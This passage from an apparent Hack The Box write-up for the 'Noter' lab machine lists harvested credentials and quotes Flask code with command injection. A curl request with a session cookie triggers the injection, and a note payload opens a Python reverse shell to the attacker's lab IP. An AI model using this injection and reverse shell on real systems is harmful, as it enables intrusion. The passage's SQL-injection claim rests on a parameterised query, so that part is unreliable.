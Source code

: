 ```shell
```

The known credentials are now:

```
blue blue@Noter!
ftp_admin ftp_admin@Noter!
root Nildogg36
```

Also the latest patch has some serious vulnerabilities!

In `@app.route('/export_note_remote', methods=['POST'])`:

```python
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")
```

And in `@app.route('/export_note_local/<string:id>', methods=['GET'])`:

```python
            command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
            subprocess.run(command, shell=True, executable="/bin/bash")
```

### Command injection

The first vector allows a straightforward command injection in `r.text`,
which is filled when the server requests a given "url":

```python
r = pyrequest.get(url,allow_redirects=True)
```

And this is triggered by a POST to `/export_note_remote` with the relevant
parameters:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yodfow.HyndDkV2OQAk7qMO2ZtJ5O2hMoI' \
    --data-binary $'url=http%3A%2F%2F10.10.16.2%3A8888%2Fnote.md' \
    $'http://10.10.11.160:5000/export_note_remote'
```

And a reverse shell in `note.md`:

```
a';python3 -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("10.10.16.2",9999));f=s.fileno;c(["/bin/bash","-i"],stdin=f(),stdout=f(),stderr=f())';#
```

### SQLi

There's potential for SQLi too:

```python
result = cur.execute("SELECT * FROM notes where author= %s",[session['username']])
```


[author-profile]: https://app.hackthebox.com/users/389926
[dashboard]: images/dashboard.png
[hacktricks]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign
[leak]: images/leak.png
[mysql-udf]: https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
[raptor-udf2]: https://www.exploit-db.com/exploits/1518